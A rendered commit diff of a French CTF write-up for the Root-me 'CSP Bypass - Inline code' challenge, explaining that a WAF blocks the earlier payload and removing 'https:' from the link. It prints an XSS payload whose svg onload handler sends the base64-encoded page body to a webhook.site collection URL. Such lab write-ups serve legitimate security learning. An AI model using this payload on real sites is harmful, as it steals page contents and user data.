

Before and after one commit to Gozenmoyuko/Write-Up-CTF, a Markdown page: Write Up/Root-me/Web-Client CSP Bypass - Inline code.md, the part around the change. Drawn GitHub-style; pictures changed too: Write Up/img/Pasted image 20260815012556.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-08-15 01:30:03

````diff
--- a/Write Up/Root-me/Web-Client CSP Bypass - Inline code.md
+++ b/Write Up/Root-me/Web-Client CSP Bypass - Inline code.md
@@ -114,12 +114,19 @@ http://challenge01.root-me.org:58008/page?user=<svg onload="document.location.hr
 ```
 
 
-![](../../Pasted%20image%2020260815010857.png)
+![](../img/Pasted%20image%2020260815010857.png)
 
-Bon je vais pas vous mentir actuellement vous pourrez attendre longtemps rien n'arriveras p
-
-Nouveau Payload
+Bon je vais pas vous mentir actuellement vous pourrez attendre longtemps rien n'arriveras car il y a un WAF qui rejette discrètement notre payload. On va donc laisser le navigateur de la victime (bot ou admin) remplacer notre lien pour ce faire on va juste enlever https: devant notre lien ce qui donne le payload :
 
 ```html
 http://challenge01.root-me.org:58008/page?user=<svg onload="document.location.href='//webhook.site/baad9b72-09e4-47bc-b3e9-29368cce0caa?c='.concat(encodeURIComponent(btoa(document.body.innerHTML)))">
 ```
+
+Maintenant essayons de voir si on reçoit quelques choses :
+
+![](../img/Pasted%20image%2020260815012556.png)
+
+
+Voici le code en base64 de la page qu'on viens de récupérer :
+
+Maintenant nous allons le décoder directement dans la console web grâce à atob
````
Also changed, not shown: Write Up/img/Pasted image 20260815010857.png (renamed from Pasted image 20260815010857.png), 1 other file.
